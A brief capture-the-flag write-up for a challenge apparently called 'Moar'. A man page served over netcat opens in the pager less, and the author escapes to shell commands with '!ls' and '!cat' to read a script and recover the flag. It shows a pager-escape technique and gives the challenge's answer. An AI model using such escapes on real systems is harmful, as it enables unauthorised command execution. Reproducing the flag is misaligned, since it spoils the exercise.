 # Moar

We're served a `man socat` page though netcat. 

It gives us `less` output.

Little do they know that we are able to execute arbitrary commands while running `less` starting with `!`

Let's try `!ls` 
```
bin   dev  home  lib64  mnt  proc  run   srv  tmp  var
boot  etc  lib   media  opt  root  sbin  sys  usr
!done  (press RETURN)!ls home
```

Great! Now `!ls home/moar` -> `disable_dmz.sh`

And finally `!cat home/moar/disable_dmz.sh` 
```
#!/bin/sh

# Copyright 2018 Google LLC
#
# Licensed under the Apache License, Version 2.0 (the "License");
# you may not use this file except in compliance with the License.
# You may obtain a copy of the License at
#
#     https://www.apache.org/licenses/LICENSE-2.0
#
# Unless required by applicable law or agreed to in writing, software
# distributed under the License is distributed on an "AS IS" BASIS,
# WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
# See the License for the specific language governing permissions and
# limitations under the License.

echo 'Disabling DMZ using password CTF{SOmething-CATastr0phic}'
echo CTF{SOmething-CATastr0phic} > /dev/dmz
```

We got the flag `CTF{SOmething-CATastr0phic}`, but let's try to run the script `disable_dmz.sh`

```
Disabling DMZ using password CTF{SOmething-CATastr0phic}
/home/moar/disable_dmz.sh: 18: /home/moar/disable_dmz.sh: cannot create /dev/dmz: Read-only file system
```

Sad. :(